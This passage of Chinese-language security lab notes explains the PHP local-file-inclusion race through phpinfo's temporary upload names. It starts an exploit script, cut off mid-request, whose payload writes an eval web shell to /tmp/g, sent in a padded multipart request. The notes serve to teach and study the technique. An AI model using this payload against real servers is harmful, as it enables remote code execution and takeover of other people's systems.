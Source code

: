		+ phpinfo 可以输出$_FILE 信息：在 PHP 中，有超全局变量$_FILES，保存上传文件的信息，包括文件名、类型、临时文件名（php+随机字符）、错误代号、大小。

		+ 通过多种方式争取时间，在临时文件删除前进行执行包含：

			1）通过在数据报文中加入大量的垃圾数据，使 phpinfo 页面过大，导致 php 输出进入流式输出，并不是一次输出完毕

			2）通过大量请求来延迟 php 脚本的执行速度
	
	+ 下面实验进行相关演示：

		+ 创建两个文件：文件包含和phpinfo文件

			![Alt text](/style/image/image63.png)
		
		+ 创建文件上传html:

			![Alt text](/style/image/image64.png)

		+ kali创建phpinfo临时文件获取脚本lfi-exp.py：

			```
			#!/usr/bin/python 
			import sys
			import threading
			import socket

			def setup(host, port):
				TAG="Security Test"
				PAYLOAD="""%s\r
			<?php file_put_contents('/tmp/g', '<?=eval($_REQUEST[1])?>')?>\r""" % TAG
				REQ1_DATA="""-----------------------------7dbff1ded0714\r
			Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
			Content-Type: text/plain\r
			\r
			%s
			-----------------------------7dbff1ded0714--\r""" % PAYLOAD
				padding="A" * 5000
				REQ1="""POST /phpinfo.php?a="""+padding+""" HTTP/1.1\r
			Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie="""+padding+"""\r
			HTTP_ACCEPT: """ + padding + """\r
			HTTP_USER_AGENT: """+padding+"""\r
			HTTP_ACCEPT_LANGUAGE: """+padding+"""\r